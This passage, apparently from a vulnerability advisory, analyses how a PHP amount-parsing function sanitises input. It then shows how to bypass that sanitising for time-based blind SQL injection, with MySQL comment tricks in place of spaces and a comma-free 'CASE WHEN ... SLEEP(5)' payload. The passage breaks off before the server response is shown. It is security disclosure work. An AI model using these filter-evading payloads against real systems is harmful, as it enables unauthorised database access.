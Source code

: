```php
    return $amount;
}
```

It is therefore observed that:
1. `is_numeric($amount)`return 0 so the condition content is not executed.
```
▶ php -r "var_dump(is_numeric('STRING'));"
bool(false)
```
2. Spaces are removed from our payload via `$amount = str_replace(' ', '', $amount);` and `$amount = str_replace($thousand, '', $amount);`.
3. Comma's are replaced by dots via `$amount = str_replace($dec, '.', $amount);`.
4. `$rounding` being empty, the content of the condition `if ($rounding)` is not executed.

We concluded two things:
- Spaceds are removed.
- Comma's are replaced by dots.

In order to bypass this security mechanism, it is possible to combine two tricks:
1. It is necessary to replace spaces by MySQL comments `/**/` as it is documented [here](https://dev.mysql.com/doc/refman/8.0/en/comments.html).

Replace

```sql
(SELECT SLEEP(5))
```

By

```sql
(SELECT/**/SLEEP(5))
```

2. It is necessary to not use commas. To do this we can exploit this using a Time Based attack by calling the MySQL `CASE` instruction ad document [here](https://dev.mysql.com/doc/refman/5.7/en/case.html).

```sql
CASE WHEN 0<1 THEN SLEEP(5) ELSE SLEEP(0) END
```

Which after applying the first trick becomes

```sql
(SELECT/**/CASE/**/WHEN/**/(0<1)/**/THEN/**/SLEEP(5)/**/ELSE/**/SLEEP(0)/**/END)
```

See the server response delay when the condition is `0<1`:
